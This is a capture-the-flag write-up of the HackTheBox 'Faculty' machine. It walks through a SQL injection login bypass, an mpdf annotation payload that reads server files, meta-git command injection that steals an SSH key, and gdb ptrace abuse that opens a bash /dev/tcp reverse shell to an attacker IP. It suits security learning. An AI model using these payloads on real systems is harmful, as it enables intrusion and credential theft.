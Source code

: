 ```yaml
---
title: "Faculty Machine Writeup"
classes: wide
header:
  teaser: /assets/images/hackthebox/Faculty-Writeup/Faculty.png
ribbon: red
description: "Faculty is a medium linux machine that involves mpdf exploitation, meta-git and privilege escalation with gdb."
categories:
  - HackTheBox
toc: false
---
```


<img src="/assets/images/hackthebox/Faculty-Writeup/Faculty.png" style="zoom:50%;" />

Faculty is a medium linux machine that involves mpdf exploitation, meta-git and privilege escalation with gdb.

## Recon

First, let's start with nmap port scanning.

![](/assets/images/hackthebox/Faculty-Writeup/nmap-results.png)

We can see that port 80 is open so let's check the running web service.

![](/assets/images/hackthebox/Faculty-Writeup/Website.png)

Running gobuster against the site. it shows the following results:

![](/assets/images/hackthebox/Faculty-Writeup/gobuster-1.png)

This `/admin` path looks interesting, so let's run gobuster against it (this will come in handy later).

![](/assets/images/hackthebox/Faculty-Writeup/gobuster-2.png)

Now if we can go to the `/admin` path we can see a login page.

I tried `admin/admin` as the login creds but it didn't work, so I tried basic SQL injection ` admin' or 1=1 -- -` in the username field and it successfully bypassed the login page.

![](/assets/images/hackthebox/Faculty-Writeup/bypass-login.png)

![](/assets/images/hackthebox/Faculty-Writeup/administrator-page.png)

After some checks in website I found a page where I can upload a new pdf file and download a pdf file containing the list of uploaded pdfs.

![faculty-list](/assets/images/hackthebox/Faculty-Writeup/faculty-list.png)

When I clicked on the download pdf button, I noticed `mpdf` in the generated file url.

![](/assets/images/hackthebox/Faculty-Writeup/mpdf.png)

Searching for `mpdf`, it turned out to be a `PHP library which generates PDF files from UTF-8 encoded HTML`.

We can also intercept the request in burp and decode the `pdf` parameter to see the decoded HTML file ( base64 and url decode twice).

![pdf-burp](/assets/images/hackthebox/Faculty-Writeup/pdf-burp.png)

A quick search and I found a vulnerability for `mpdf` library (CVE-2019-1000005).

We can test that the vulnerability works using (\<img src="http://10.10.x.x/"\>) as the HTML file then encode it and replace the pdf parameter in the burp request with it.

![cyberchef](/assets/images/hackthebox/Faculty-Writeup/cyberchef.png)

nc returns a response, NOICE!

![](/assets/images/hackthebox/Faculty-Writeup/test-vuln-2.png)

## Shell as gbyolo

Now that the vulnerability is working, we can try to read different files from the server using this payload:

`<annotation file=\"/etc/passwd\" content=\"/etc/passwd\"  icon=\"Graph\" title=\"Attached File: /etc/passwd\" pos-x=\"195\" />`

![](/assets/images/hackthebox/Faculty-Writeup/lfi.png)

`/etc/passwd`

<img src="/assets/images/hackthebox/Faculty-Writeup/passwd.png" style="zoom: 67%;" /> 

`./login.php`

![](/assets/images/hackthebox/Faculty-Writeup/login.png)

Notice the included file `./db_connect.php`, let's try to read it.

![](/assets/images/hackthebox/Faculty-Writeup/db_connect.png)

We found a password, so I tried it with the username `gbyolo` as ssh creds.

username: `gbyolo`
password: `Co.met06aci.dly53ro.per`

![](/assets/images/hackthebox/Faculty-Writeup/gbyolo-user.png)

## Shell as developer

Running `sudo -l`, we can see that `gbyolo` user can run `meta-git` (a NPM package that can manage your meta repo and child git repositories) as `developer` user.

I found a [report](https://hackerone.com/reports/728040) on hackerone showing an RCE exploit for this package so I crafted this payload to read the rsa key for the `developer` user.

`sudo -u developer /usr/local/bin/meta-git clone 'test||cat /home/developer/.ssh/id_rsa' `.

![](/assets/images/hackthebox/Faculty-Writeup/developer-id_rsa.png)

> Remember to change the permissions of the `id_rsa` file to 600

Now we can ssh into box with `developer` user and read `user.txt`.

![](/assets/images/hackthebox/Faculty-Writeup/developer-user.png)

## Shell as root

Running [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), I found that `gdb` has `CAP_SYS_PTRACE` capability which allows it to debug any other process.

![](/assets/images/hackthebox/Faculty-Writeup/gdb.png)

So let's search for a python process running as `root` user to be able to run a system command using python's `system()` function:

`ps aux | grep "^root.*python3" | awk '{print $2}'`

Found one, now attach gdb to it.

`gdb -p $PID`

![gdb](/assets/images/hackthebox/Faculty-Writeup/gdb-exploit-1.png)

Finally run a nc listener on our side and call `system()` function to get a reverse shell.

`call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.x.x/4444 0>&1'")` 

![gdb](/assets/images/hackthebox/Faculty-Writeup/gdb-exploit-2.png)

![gdb](/assets/images/hackthebox/Faculty-Writeup/root.png)